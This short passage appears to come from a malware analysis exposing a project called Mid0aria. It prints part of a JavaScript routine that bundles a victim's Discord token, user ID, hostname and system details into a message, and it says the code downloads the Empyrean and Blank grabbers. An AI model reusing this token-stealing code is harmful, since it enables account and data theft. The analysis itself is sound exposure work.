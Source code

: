 ```javascript
        grabberType + // Search for ".exe", possibly downloads a malicious exe and tries to track which grabber it has used

        "\nUser ID: " +

        userId +

        "\nToken: ```" +

        discordToken +

        "``` \nHostname: " +

        platformInfo.hostname +

        "\nComputerType: " +

        platformInfo.version() +

        " / " +

        platformInfo.release() +

        " / " +

        platformInfo.platform() +

        " / " +

        platformInfo.arch() +

        "**",

    },

  });

}
```

It should be clear by now that, the code tries to download two grabbers: Empyrean Grabber and Blank Grabber. A quick search shows that both of those exist and are publicly available. [Empyrean](https://duckduckgo.com/?t=ffab&q=empyrean+grabber+github&ia=web),[Blank](https://duckduckgo.com/?q=blank+grabber+github&t=ffab&ia=web).

This shows that Mid0aria not only is stealing tokens, but is also doing something much more harmful that steals a lot more than just a Discord token.

